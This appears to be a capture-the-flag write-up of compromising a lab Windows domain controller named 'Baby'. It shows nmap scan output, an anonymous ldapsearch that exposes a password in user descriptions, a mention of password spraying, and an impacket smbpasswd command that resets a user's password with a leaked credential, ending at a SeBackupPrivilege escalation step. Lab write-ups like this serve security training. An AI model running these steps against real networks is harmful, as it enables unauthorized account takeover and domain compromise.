


# Enumeration
Using nmap:
```
PORT      STATE SERVICE
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-03-30 09:38:21Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=BabyDC.baby.vl
| Not valid before: 2024-03-29T09:36:30
|_Not valid after:  2024-09-28T09:36:30
| rdp-ntlm-info: 
|   Target_Name: BABY
|   NetBIOS_Domain_Name: BABY
|   NetBIOS_Computer_Name: BABYDC
|   DNS_Domain_Name: baby.vl
|   DNS_Computer_Name: BabyDC.baby.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-03-30T09:38:30+00:00
|_ssl-date: 2024-03-30T09:39:11+00:00; -23h59m44s from scanner time.
5357/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
Service Info: Host: BABYDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-03-30T09:38:30
|_  start_date: N/A
|_clock-skew: mean: -23h59m43s, deviation: 0s, median: -23h59m43s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
5985/tcp  open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf     .NET Message Framing
49664/tcp open  msrpc      Microsoft Windows RPC
49667/tcp open  msrpc      Microsoft Windows RPC
49668/tcp open  msrpc      Microsoft Windows RPC
49674/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc      Microsoft Windows RPC
55015/tcp open  msrpc      Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```
Trying to enumerate ldap:
`ldapsearch -H ldap://baby.vl -b "DC=baby,DC=vl" -x objectclass=* | grep description`

Found a password.
Trying to password spray with crackmapexec:

Got a password must change.
So trying impacket smbpasswd:
`./smbpasswd.py baby.vl/Caroline.Robinson:'BabyStart123!'@10.10.64.5 -newpass aditya123@`
We successfully changed the password.

Now enumerating the Privileges we find **SeBackupPrivilege**
We can us this [article](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/) proceeding forward
